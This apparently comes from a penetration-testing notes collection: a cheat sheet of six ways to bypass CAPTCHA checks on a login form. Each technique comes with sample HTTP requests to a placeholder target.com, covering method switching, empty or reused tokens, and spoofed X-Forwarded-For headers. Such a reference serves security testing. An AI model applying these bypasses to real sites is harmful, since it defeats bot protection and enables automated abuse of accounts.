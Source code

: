 # Bypass Captcha (Google reCAPTCHA)

1. Try changing the request method, for example [[POST-Methode]] to [[GET-Methode]]
```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

Change the method to [[GET-Methode]]
```
GET /?_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123 HTTP 1.1
Host: target.com
...
```

2. Try remove the value of the [[captcha parameter]]
```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=&_Username=daffa&_Password=test123
```

3. Try reuse old [[Captcha-Token]]
```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=OLD_CAPTCHA_TOKEN&_Username=daffa&_Password=test123
```

4. Convert [[JSON]] data to normal request parameter
```
POST / HTTP 1.1
Host: target.com
...

{"_RequestVerificationToken":"xxxxxxxxxxxxxx","_Username":"daffa","_Password":"test123"}
```
Convert to normal request
```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

5. Try custom header to bypass captcha
```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```

6. Change some specific characters of the captcha parameter and see if it is possible to bypass the restriction.
```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```
Try this to bypass
```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxdxxxaxxcxxx&_Username=daffa&_Password=test123
```
